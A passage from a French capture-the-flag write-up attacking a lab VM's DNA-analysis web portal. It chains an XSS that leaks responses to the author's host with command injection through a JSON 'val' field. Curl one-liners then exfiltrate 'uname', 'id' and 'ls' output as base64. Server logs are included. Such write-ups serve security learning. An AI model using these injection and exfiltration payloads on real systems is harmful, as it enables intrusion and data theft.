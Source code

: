 ```js
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
    if(xmlhttp.readyState == 4){
        var img = document.createElement("img");
        img.src = "http://192.168.56.1/dna" + encodeURI(xmlhttp.responseText);
        document.body.appendChild(img);
    }
}
xmlhttp.open("POST","/dnanalyzer/portal/analyze_dna.php");
xmlhttp.setRequestHeader('Content-type', 'application/json');
xmlhttp.send(JSON.stringify({"id": 42, "val": "GATC"}));
```

Dans le contenu leaké j'obtiens effectivement le status *Superb*. Il faut donc que je continue à utiliser cette session authentifiée.

## ADN piégé

A ce stade j'ai déja passé beaucoup de temps sur le CTF (surtout parce que le XSS est déclenché toutes les 3 minutes seulement) et je n'ai pas trop envie d'imaginer qu'il faille enchainer sur une faille SQL. Il me semblait relativement probable qu'on aurait directement un RCE.

J'ai donc passé la valeur suivante :

```js
xmlhttp.send(JSON.stringify({"id": 42, "val": "GATC;curl http://192.168.56.1/success;"}));
```

Et la VM a bien tapé sur mon URL. On voit aussi la réponse de mon serveur qui est renvoyée ensuite sur le mien via le chargement de l'image :

```
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 Accepted
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 [404]: (null) /success - No such file or directory
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 Closing
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 Accepted
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 [404]: (null) /dna%3C/head%3E%3Cbody%3E%3Ch1%3ENot%20Found%3C/h1%3E%3Cp%3EThe%20requested%20resource%20%3Ccode%20class=%22url%22%3E/success%3C/code%3E%20was%20not%20found%20on%20this%20server.%3C/p%3E%3C/body%3E%3C/html%3E - No such file or directory
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 Closing
```

J'ai tenté quelques commandes de reverse-shell mais une bonne partie ont échouées. Je me suis renseigné un peu sur la machine avec ce type de commande pour exfiltrer les informations :

```bash
curl http://192.168.56.1/`uname -a|base64 -w0`
```

On a bien un système 64 bits :

`Linux alphonse 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) x86_64 GNU/Linux`

Et concernant nos droits sur le serveur :

```bash
curl http://192.168.56.1/`(id; ls -al)|base64 -w0`;
```
